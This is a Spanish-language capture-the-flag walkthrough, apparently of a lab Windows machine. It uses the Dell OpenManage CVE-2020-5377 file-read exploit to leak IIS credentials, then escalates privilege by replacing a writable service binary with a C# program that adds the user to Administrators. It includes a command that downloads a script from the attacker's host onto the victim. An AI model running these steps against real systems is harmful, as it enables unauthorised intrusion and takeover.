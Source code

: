 Realizamos un escaneo simple de nmap
![[Pasted image 20240806080253.png]]

Continuamos haciendo un escaneo mas completo
![[Pasted image 20240806080102.png]]
![[Pasted image 20240806080226.png]]

En el escaneo de nmap encontramos que ftp tiene activado la conexión de forma Anonima, nos conectamos y descargamos los ficheros
![[Pasted image 20240806091313.png]]

En el documento de texto encontramos información de muchas tarjetas de credito
![[Pasted image 20240806091507.png]]

Añadimos el nombre de la maquina a nuestro hosts
![[Pasted image 20240806080349.png]]

Revisamos el puerto 80
![[Pasted image 20240806080452.png]]

Revisamos el codigo de la web pero sin obtener exito, resivamos que contiene la web y detectamos que es un windows server
![[Pasted image 20240806080956.png|500]]

Realizamos fuzzing web y encontramos los siguientes directorios
![[Pasted image 20240806081639.png]]

Ahora pasamos a revisar los directorios y nos encontramos que estan protegidos con permisos y no tenemos acceso
![[Pasted image 20240806082002.png]]

Pasamos a enumerar el puerto 1311 accediendo por https y nos encontramos un panel de login de `Dell EMC OpenManage` el cual es un software para la gestión de sistemas
![[Pasted image 20240806082251.png]]

Debajo encontramos el boton de About, si accedemos obtenemos informacion sobre versiones
![[Pasted image 20240806094354.png|1000]]

Revisamos si hay alguna vulnerabilidad y encontramos una para las versions 9.4 y en este caso es la 9.0 pero buscando encontramos que para este versión tambien es vulnerable.
```
https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/?ref=benheater.com
```
![[Pasted image 20240806095501.png]]

Nos descargamos el script
![[Pasted image 20240806095539.png]]

Accedemos dentro del exploit y encontramos como ejecutarlo
![[Pasted image 20240806095737.png]]

No consegui que funcionase pero tenemos el exploit en github, lo descargamos
```
https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py
```
![[Pasted image 20240806101639.png]]

Y ahora lo ejecutamos y obtenemos acceso a la maquina
![[Pasted image 20240806101816.png]]

Este terminal nos permite consultar ficheros, como no sabemos donde se ubica la web examinaremos el siguiente fichero el cual contiene la configuración de los IIS, para poder tener búsquedas mas precisas lo copiamos y pegamos en un documento para examinarlo
```
Windows/System32/inetsrv/config/applicationHost.config
```
![[Pasted image 20240806102944.png]]

Una vez lo tenemos copiado buscaremos el nombre de la web para realizar una busqueda precisa, al realizarla obtenemos la ruta de la web
![[Pasted image 20240806102911.png]]

Ahora ya podemos acceder al fichero con la configuración y dentro encontramos unas credenciales
```
tyler
IAmA1337h4x0randIkn0wit!
```
![[Pasted image 20240806104433.png]]


Probamos las credenciales y obtenemos acceso al sistema
![[Pasted image 20240806112436.png]]

Para buscar vulnerabilidades utilizaremos `PrivescCheck`, para ello levantamos un servidor y nos descargamos el fichero
```
https://github.com/itm4n/PrivescCheck
```

Lo transferimos a la maquina victima
```
Invoke-WebRequest -Uri http://10.9.0.118:4444/PrivescCheck.ps1 -OutFile "C:\Users\tyler\Documents\PrivescCheck.ps1"
```
![[Pasted image 20240807113223.png]]

Y ahora ejecutamos el script
```
. .\\PrivescCheck.ps1; Invoke-PrivescCheck
```
![[Pasted image 20240807081114.png]]

Y nos encuentra una vulnerabilidad en el servicio `spoofer-scheduler.exe`
![[Pasted image 20240807081435.png]]

Esta salida es la misma que si la buscasemos a mano de la siguiente manera
```
sc.exe qc "spoofer-scheduler"
```
![[Pasted image 20240807131152.png]]

Si revisamos los permisos de la carpeta donde se encuentra el servicio podemos ver que tenemos total acceso
```
powershell -Command "Get-Acl -Path 'C:\Program Files (x86)\Spoofer' | Format-List"
```
![[Pasted image 20240807120529.png]]

Si leemos el fichero de CHANGES.txt nos muestra mas información sobre la versión de `spoofer`
![[Pasted image 20240807130825.png]]

Si lo comprobamos podemos ver que tenemos permisos para parar y ejecutar el servicio
![[Pasted image 20240807131331.png]]

Si revisamos la lista de control de acceso podemos ver que tenemos los permisos del binario del servicio
```Powershell
Get-Acl 'C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe' | 
Select-Object -ExpandProperty Access | 
Where-Object {$_.IdentityReference -eq 'BUILTIN\Users'}
```
![[Pasted image 20240807131813.png]]

Ahora para obtener acceso como Administrador crearemos un script en C# para que añada el usuario `Tyler` al grupo de Administradores
```C#
using System;
using System.Diagnostics;

public class Program
{
    public static void Main()
    {
        // Crear un proceso para ejecutar el comando 'net'
        Process process = new Process();
        process.StartInfo.FileName = "net";
        process.StartInfo.Arguments = "localgroup Administrators tyler /add";
        process.StartInfo.UseShellExecute = false;
        process.StartInfo.RedirectStandardOutput = true;
        process.StartInfo.CreateNoWindow = true;

        // Iniciar el proceso
        process.Start();

        // Leer la salida (si es necesario)
        string output = process.StandardOutput.ReadToEnd();

        // Esperar a que el proceso termine
        process.WaitForExit();

        // Mostrar la salida (si es necesario)
        Console.WriteLine(output);
    }
}
```

Una vez creado el script en C# instalaremos `Mono` para poder compilarlo
```
sudo apt install mono-complete
```
![[Pasted image 20240807133309.png]]

Una vez instalado compilamos el codigo
```
mcs spoofer-scheduler.cs
```
![[Pasted image 20240807133349.png]]

Ahora paramos el servicio
```bash
ssh tyler@10.10.183.19 'sc.exe stop spoofer-scheduler'
```
![[Pasted image 20240807134635.png]]

Transferimos nuestro programa compilado sustituyendo el binario del servicio
```bash
scp ./spoofer-scheduler.exe tyler@10.10.183.19:"C:/Program Files (x86)/Spoofer/spoofer-scheduler.exe"
```
![[Pasted image 20240807135013.png]]

Y al levantar el servicio el usuario Tyler tendra acceso como Administrador
```Bash
ssh tyler@10.10.183.19 'sc.exe start spoofer-scheduler'
```
![[Pasted image 20240807135153.png]]

Ignoramos el error de la captura anterior y verificamos que el usuario Tyler este en el grupo de Administradores
```bash
ssh tyler@10.10.183.19 'net localgroup Administrators'
```
![[Pasted image 20240807135218.png]]

Y ahora podemos probar a acceder con xfreerdp
```
xfreerdp /v:10.10.183.19 /u:'tyler' /p:'IAmA1337h4x0randIkn0wit!' /size:'90%' /drive:.,kali-share +clipboard`
```
![[Pasted image 20240807135411.png]]

Y ya podemos acceder a la flag de admin
![[Pasted image 20240807135529.png]]